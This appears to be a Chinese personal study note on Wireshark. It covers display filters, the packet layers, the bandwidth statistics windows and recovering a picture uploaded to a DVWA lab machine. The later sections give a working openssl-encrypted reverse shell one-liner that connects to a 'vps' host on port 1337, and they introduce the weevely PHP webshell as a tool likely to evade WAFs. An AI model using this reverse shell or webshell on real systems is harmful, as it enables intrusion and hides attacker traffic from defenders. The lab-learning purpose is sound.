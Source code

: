逻辑运算符&& 与、|| 或、！非

ip.src ==192.168.1.104 显示源地址为192.168.1.104的数据包列表<br />ip.dst==192.168.1.104, 显示目标地址为192.168.1.104的数据包列表<br />ip.addr == 192.168.1.104 显示源IP地址或目标IP地址为192.168.1.104的数据包列表

tcp.port ==80,  显示源主机或者目的主机端口为80的数据包列表。<br />tcp.srcport == 80,  只显示TCP协议的源主机端口为80的数据包列表。<br />tcp.dstport == 80，只显示TCP协议的目的主机端口为80的数据包列表。

ttp.request.method=="post"

![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628695150851-90c16051-805f-406e-b34b-f690719c903f.png#height=223&id=iEsKa&originHeight=223&originWidth=891&originalType=binary&ratio=1&rotation=0&showTitle=false&size=0&status=done&style=none&title=&width=891)

tcp.stream eq 0 筛选出第一个TCP流（包含完整的一次TCP连接：三次握手和四次挥手）

http contains "xxxx"          http协议中包含xxxx的文件


![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628736757252-56f0ecae-c585-49c6-87d8-26a55a788508.png#height=439&id=vhogY&originHeight=439&originWidth=1140&originalType=binary&ratio=1&rotation=0&showTitle=false&size=78365&status=done&style=none&title=&width=1140)<br />（1） Frame:   物理层的数据帧概况<br />（2）Ethernet II: 数据链路层以太网帧头部信息<br />（3） Internet Protocol Version 4: 互联网层IP包头部信息<br />（4）Transmission Control Protocol:  传输层的数据段头部信息，此处是TCP<br />（5） Hypertext Transfer Protocol:  应用层的信息，此处是HTTP协议


统计窗口中的Endpoints，可以通过排序Bytes和Tx Bytes来判断占用带宽最大的主机。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628837537515-c7f8a52b-e560-4934-8d4b-bdd62e7baae4.png#height=424&id=npbWC&originHeight=566&originWidth=1087&originalType=binary&ratio=1&rotation=0&showTitle=false&size=70871&status=done&style=none&title=&width=815)

统计窗口中的Conversions窗口可以看到两个主机之间发送/接收数据包的数量、字节大小以及数据的流向情况，也可以通过排序来判断占用最大带宽的主机<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628837803417-e7d5bfcf-b3f1-47f5-a9bb-46a46cfe45bf.png#height=580&id=MpmvH&originHeight=773&originWidth=1317&originalType=binary&ratio=1&rotation=0&showTitle=false&size=79596&status=done&style=none&title=&width=988)

<a name="HBU3Z"></a>
## 把秒数转换为时间
默认是自捕获开始经历的秒数，把秒数转换为时间<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1660670711420-a3f6cc06-07f1-4dba-9849-14cfcd58e1e4.png#clientId=uf46e149c-08ba-4&from=paste&height=610&id=uef842dd5&originHeight=762&originWidth=1032&originalType=binary&ratio=1&rotation=0&showTitle=false&size=115641&status=done&style=none&taskId=uf4f9193a-2d85-4b16-a03e-820e6fa8966&title=&width=825.6)<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1660670771647-42725408-904b-4e0a-a0a9-f89f7d7ce3f8.png#clientId=uf46e149c-08ba-4&from=paste&height=290&id=u0f69e06f&originHeight=362&originWidth=1626&originalType=binary&ratio=1&rotation=0&showTitle=false&size=52010&status=done&style=none&taskId=u61ad5d08-8070-4baa-b70b-895cd9b0811&title=&width=1300.8)
<a name="xPMkD"></a>
## 找到传送图片的数据包

我在10.82.50.38靶机搭建了dvwa，用来做实验，桥接的网络。<br />启动wireshark，并进入对应的网卡进行流量的监听。往dvwa上传图片。抓到上传的包<br />实验开始<br />一开始数据包是很多的有9万多条，所以要过滤筛选出要看的包。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628743149524-0b953c8f-6364-43a8-b6af-7dcf1618903d.png#height=508&id=UyB9T&originHeight=1015&originWidth=1317&originalType=binary&ratio=1&rotation=0&showTitle=false&size=201208&status=done&style=none&title=&width=658.5)<br />因为靶机的ip和文件上传的路径有upload字眼，所以我使用了这条payload语句进行过滤数据包http contains upload && ip.addr == 10.82.50.38 <br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628743103634-eddaf40b-8f9d-412f-82c3-7e590e6133a3.png#height=684&id=zNAkc&originHeight=912&originWidth=1304&originalType=binary&ratio=1&rotation=0&showTitle=false&size=123458&status=done&style=none&title=&width=978)<br />这个时候找到了/uploads/路径和jpg的结尾。对这个包进行tcp的追踪<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628743371853-67e7431e-d7e4-4c55-bae6-8936af11e30e.png#height=498&id=lWf83&originHeight=498&originWidth=1385&originalType=binary&ratio=1&rotation=0&showTitle=false&size=65976&status=done&style=none&title=&width=1385)<br />找到了最后一条对话，目标机器接收到图片后，就不会返回请求。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628743431039-ad379465-efb6-479f-9353-b1e3cad854dc.png#height=611&id=oNmvV&originHeight=815&originWidth=884&originalType=binary&ratio=1&rotation=0&showTitle=false&size=82333&status=done&style=none&title=&width=663)<br />参考文章：[https://blog.51cto.com/yttitan/1738099](https://blog.51cto.com/yttitan/1738099) 利用wireshark还原上传的图片

<a name="no1ox"></a>
## netcat流量加密
nc反弹shell后的命令执行，都是明文的。需要用证书加密流量。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628829339921-0898c55f-21d1-4187-9099-1bb66141c130.png#height=611&id=OseKf&originHeight=815&originWidth=884&originalType=binary&ratio=1&rotation=0&showTitle=false&size=62411&status=done&style=none&title=&width=663)<br />服务器<br />openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes 生成证书<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628829649239-9e3becfe-cb41-49e2-a0d3-ee1cb2bfb163.png#height=390&id=jrcSI&originHeight=520&originWidth=1188&originalType=binary&ratio=1&rotation=0&showTitle=false&size=63844&status=done&style=none&title=&width=891)<br />openssl s_server -quiet -key key.pem -cert cert.pem -port 1337    监听1337端口<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628829666882-c4155575-455e-44cd-b86f-d32ea3104454.png#height=30&id=SETkV&originHeight=30&originWidth=962&originalType=binary&ratio=1&rotation=0&showTitle=false&size=4623&status=done&style=none&title=&width=962)<br />客户端<br />mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect vps:1337 > /tmp/s; rm /tmp/s<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628829708211-51de84c8-730a-40e1-92e0-fa048de7e841.png#height=103&id=z8BIj&originHeight=138&originWidth=955&originalType=binary&ratio=1&rotation=0&showTitle=false&size=50787&status=done&style=none&title=&width=716)

成功接收到shell<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628829732051-e517b1ba-3ee6-4454-8eb2-502b24b0e2df.png#height=287&id=OUnlW&originHeight=382&originWidth=964&originalType=binary&ratio=1&rotation=0&showTitle=false&size=41569&status=done&style=none&title=&width=723)<br />对tcp流量进行跟踪，发现执行的命令均用了TLSV1.2协议加密<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628829792086-6a4377e3-33f0-4d4f-a8cf-843dbb6a2222.png#height=973&id=BT3Q9&originHeight=973&originWidth=1306&originalType=binary&ratio=1&rotation=0&showTitle=false&size=137991&status=done&style=none&title=&width=1306)

<a name="vZ13O"></a>
## weevely
kali上连接webshell的工具，但是这款工具只能适用php<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628843206140-d437cd4f-db95-416f-a354-0d891c766dc5.png#height=293&id=SRzCn&originHeight=293&originWidth=509&originalType=binary&ratio=1&rotation=0&showTitle=false&size=42549&status=done&style=none&title=&width=509)<br />连接方式如下<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628843375370-a0384815-51f2-46a4-b812-af68a1e3ba53.png#height=345&id=fiJ5q&originHeight=459&originWidth=598&originalType=binary&ratio=1&rotation=0&showTitle=false&size=91887&status=done&style=none&title=&width=449)<br />wrieshark抓包分析流量，看不太懂命令执行的加密方式。目测少人用，应该能过很多waf。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628843496859-40fba4f9-5002-4a84-8199-f3c7375c7aa2.png#height=611&id=YaKMe&originHeight=815&originWidth=884&originalType=binary&ratio=1&rotation=0&showTitle=false&size=77195&status=done&style=none&title=&width=663)
